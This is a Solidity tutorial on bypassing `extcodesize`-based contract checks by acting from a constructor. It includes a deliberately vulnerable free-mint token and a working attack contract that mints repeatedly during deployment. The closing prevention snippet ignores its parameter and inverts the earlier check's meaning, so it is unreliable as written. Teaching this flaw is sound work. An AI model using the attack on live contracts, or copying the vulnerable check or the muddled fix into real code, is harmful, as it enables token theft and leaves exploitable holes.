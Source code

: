 # Bypass Contract Check

Many free-mint projects utilize the `isContract()` method to limit access to external accounts (EOAs) and restrict contract addresses. This method leverages `extcodesize` to determine the runtime `bytecode` length of an address. If it is greater than zero, the address is deemed a contract; otherwise, it is considered an EOA.

```solidity
    // Using extcodesize to check if an address is a contract
    function checkContract(address account) public view returns (bool) {
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }
```

However, a vulnerability exists because, during contract creation, the runtime `bytecode` has not yet been stored at the address, so the `bytecode` length is zero. If we place our logic within the constructor, we can bypass the `isContract()` check.

**Example of the Vulnerability**

In the example below, `FreemintERC20` contract uses the `checkContract()` function to prevent contract addresses from executing its `mintTokens()` function, which is intended to prevent automated bulk minting. Each call to `mintTokens()` mints 100 tokens.

```solidity
// Using extcodesize to check if an address is a contract
contract FreemintERC20 is ERC20 {
    constructor() ERC20("Token", "TKN") {}

    function checkContract(address account) public view returns (bool) {
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }

    // mint function can only be called by non-contract addresses (vulnerable)
    function mintTokens() public {
        require(!checkContract(msg.sender), "Contracts are not allowed!");
        _mint(msg.sender, 100);
    }
}
```

We create an attack contract that calls `mintTokens()` multiple times during its constructor to mint `1000` tokens:

```solidity
// Exploiting constructor characteristics for attacks
contract AttackContract {
    bool public detectedAsContract;
    address public targetContract;

    // During contract creation, extcodesize is 0, thus bypassing isContract() checks.
    constructor(address addr) {
        targetContract = addr;
        detectedAsContract = FreemintERC20(addr).checkContract(address(this));
        for(uint i; i < 10; i++){
            FreemintERC20(addr).mintTokens();
        }
    }

    // After contract deployment, extcodesize > 0, isContract() will detect
    function tryMint() external {
        FreemintERC20(targetContract).mintTokens();
    }
}
```

In this contract, calling `mintTokens()` within the constructor will bypass the `isContract()` check successfully and mint the tokens. The state variable `detectedAsContract` will be set to `false` in the constructor. After deployment, the `runtime bytecode` is stored at the contract address, and `extcodesize > 0`, thus `checkContract()` will successfully block the minting when calling `mintTokens()`.

**Prevention Methods**

We can use `(tx.origin == msg.sender)` to determine if the caller is a contract. If the caller is an EOA, then `tx.origin` and `msg.sender` will be equal; if they are not equal, the caller is a contract.

```solidity
function realContractCheck(address account) public view returns (bool) {
    return (tx.origin == msg.sender);
}
```
